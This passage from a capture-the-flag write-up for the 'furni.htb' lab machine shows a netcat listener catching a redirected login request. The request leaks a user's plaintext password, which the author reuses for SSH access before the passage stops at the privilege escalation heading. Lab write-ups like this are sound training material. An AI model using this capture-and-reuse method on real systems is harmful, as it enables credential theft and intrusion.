 Before sending it, set up a listener on port `8081` and you will receive this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619162916.png)
```http
nc -lvnp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.66 45648
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=YWMxYmMwNjctNGQxMi00ZWQ3LThiNTQtODE0NjNkZTFiMjk0
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:58430"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.234:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=7PN44TGznjhgdwtU-WEzGcPVCMm-mUAgWinW6TDhuWq7e2oB25ce1wKG_QlNQz0wwUwHIKGzJfHa-HYNPx2wiFPZgQuCGAg4
```

There we go, we got credentials:

```
miranda.wise:IL!veT0Be&BeT0L0ve
```

Let's go into ssh:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619163212.png)

`miranda.wise` does not work, `miranda-wise` works though:



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619163302.png)

So, correct credentials are:

```
miranda-wise:IL!veT0Be&BeT0L0ve
```

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---
